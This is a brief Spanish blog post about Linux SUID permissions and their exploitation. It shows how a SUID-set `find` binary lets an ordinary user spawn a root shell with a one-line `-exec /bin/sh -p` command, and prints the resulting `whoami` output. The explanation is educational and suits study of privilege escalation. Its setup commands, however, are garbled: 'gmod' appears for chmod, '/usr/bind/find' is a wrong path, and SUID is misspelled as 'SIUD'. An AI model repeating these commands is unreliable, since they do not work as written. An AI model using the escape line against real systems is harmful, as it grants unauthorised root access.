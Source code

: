 ```yaml
---
date: 2021-09-07T00:22:05.000Z
layout: post
comments: true
title: Permisos SIUD
subtitle: 'y su explotación'
description: >-
image: >-
  https://github.com/NPTG24/nptg24.github.io/blob/master/assets/img/uploads/SUIDExplained.png
optimized_image: >-
  https://github.com/NPTG24/nptg24.github.io/blob/master/assets/img/uploads/SUIDExplained.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

Este tipo de permiso establece el ID de usuario del propietario, el cual se consigue agregando un 4 al momento de otorgar los permisos:
```
Si antes se realizaba
root> gmod 755 /usr/bind/find
[-rwxr-xr-x]

Ahora si quieres agregar el permiso SIUD, se debe colocar de la siguiente forma
root> gmod 4755 /usr/bind/find
[-rwsr-xr-x]

```

Ahora en este caso se lo asignamos a ```find```, el problema de esto es que esto es vulnerable pues si aplicamos el siguiente comando, podremos obtener acceso como root:

```
user@user:~$ find . -exec /bin/sh -p \; -quit
# whoami
root

```
>https://gtfobins.github.io/gtfobins/find/

Esto pasa debido a que a user se le asigna de manera temporal el permiso de root (propietario), y en el caso mostrado se abre una shell aprovechando la vulnerabilidad.
